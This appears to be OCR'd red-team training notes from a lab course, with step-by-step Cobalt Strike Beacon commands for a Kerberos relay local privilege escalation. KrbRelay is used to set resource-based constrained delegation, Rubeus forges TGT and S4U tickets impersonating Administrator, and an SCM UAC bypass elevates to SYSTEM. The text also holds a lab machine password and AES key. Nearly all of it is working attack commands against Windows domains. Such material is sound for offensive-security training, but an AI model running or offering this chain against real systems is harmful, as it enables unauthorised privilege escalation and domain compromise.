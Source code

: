     # 2.2 - Using Checkport, find a suitable port for the OXID resolver to circumvent a check in the (RPCSS).
    beacon> execute-assembly C:\Tools\KrbRelay\CheckPort\bin\Release\CheckPort.exe
      
    # 2.3 - Run KrbRelay at that port (Using -rbcd argument)
    beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-569305411-121244042-2357301523-9101 -port 10
      
    # 2.4 - Now, If we query  WKSTN-2$, we'll see that there's now an entry in in its  *msDS-AllowedToActOnBehalfOfOtherIdentity*  attribute.
    beacon> powerpick Get-DomainComputer -Identity wkstn-2 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
      
    # 2.5 - We have new added comp credentials So we can request a TGT and perform an S4U to obtain a usable service tickets (TGS) for WKSTN-2.
    # Using Machine Password to get the hash
    PS> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
    # Using hash to get the TGT
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:1DE19DC9065CFB29D6F3E034465C56D1AEC3693DB248F04335A98E129281177A /nowrap
    # Use S4U technique to get TGS for target computer using our TGT
    # we do not use the FQDN of the target machine in the msdsspn parameter, We used host/wkstn-2.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:Administrator /msdsspn:host/wkstn-2 /ticket:doIF8j[...snip...]MuaW8= /ptt
      
    # 2.6 - To perform the elevation, use this TGS to interact with the local Service Control Manager over Kerberos to create and start a service binary payload. 
    # Use BOF and Aggressor Script that registers a new  elevate command in Beacon.
    # C:\Tools\SCMUACBypass and is based on James' SCMUACBypass [](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)gist.
    beacon> elevate svc-exe-krb tcp-local
      